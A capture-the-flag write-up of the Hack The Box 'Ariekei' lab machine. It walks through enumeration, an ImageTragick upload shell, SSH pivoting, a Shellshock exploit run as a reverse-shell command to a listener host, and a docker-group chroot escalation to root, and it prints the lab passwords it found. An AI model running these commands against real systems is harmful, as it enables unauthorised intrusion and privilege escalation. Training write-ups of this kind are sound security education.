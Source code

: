 ```yaml
---
title: "Hack The Box - Ariekei"
tags: [linux,insane,shellshock,cgi-bin,imagetragick,docker containers,container,port 1022,docker abuse]
categories: HackTheBox-Linux
---
```


![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled.png)

## NMAP :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%201.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%201.png)

→ Nginx on port 443 [ https ]

→ OpenSSH 7.2p2 ( Xenial ) port 22

→ OpenSSH 6.6.1p1 ( Trusty ) port 1022

## Enumerating HTTPS :

⇒ Found subdomains from SSL Certificate :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%202.png)

⇒ **Enumerating beehive.ariekei.htb**
→ In headers we see ariekei-waf
→ Running gobuster we find :

**/blog**
**/cgi-bin/stats**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%203.png)

→ Lets exploit using shellshock
Exploit : [https://www.exploit-db.com/exploits/34900](https://www.exploit-db.com/exploits/34900)

- It doesn't work because of the **WAF.**

→  The blog page doesn't have anything interesting

⇒ **Enumerating calvin.ariekei.htb**

→ Running gobuster we find :
**/upload**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%204.png)

→ We use ImageTragick to exploit it :  
[https://book.hacktricks.xyz/pentesting-web/file-upload#imagetragic](https://book.hacktricks.xyz/pentesting-web/file-upload#imagetragic)

- First lets create .mvg file :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%205.png)

→ We uploaded it and got an shell :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%206.png)

## Pivoting to Bastion

⇒ In /commons directory there's an .secret directory which contains bastion ssh key :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%207.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%207.png)

⇒ We ssh'ed into bastion as root [ Port 1022 ] :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%208.png)

## Pivoting to Beehive

⇒ In **commons/container** folder we find **blog-test** ( **Beehive** ) folder. Enumerating the config files we find :

→ Its running on **172.24.0.2**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%209.png)

→ We also found an password :

Password : **Ib3!kTEvYw6*P7s**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2010.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2010.png)

⇒ We can use shellshock exploit now as we are on a different machine and WAF won't block it now.

→ Shellshock : [https://www.exploit-db.com/exploits/34900](https://www.exploit-db.com/exploits/34900)

**python [enox.py](http://enox.py/) payload=reverse rhost=172.24.0.2 lhost=172.24.0.253 lport=4444 pages=/cgi-bin/stats**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2011.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2011.png)

→ We switched to root using the password we previously found.

→ We found spanishdancer user ssh keys in that user home folder :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2012.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2012.png)

→ Cracked key password : **purple1**

⇒ SSH'ed in using spanishdancer ssh key  :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2013.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2013.png)

***USER OWNED***

## Privilege Escalation to Root

→ We see that our user is in docker group. Lets abuse it to get root :

**docker run -v /:/mnt --rm -it bash chroot /mnt sh**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2014.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2014.png)

***ROOTED***



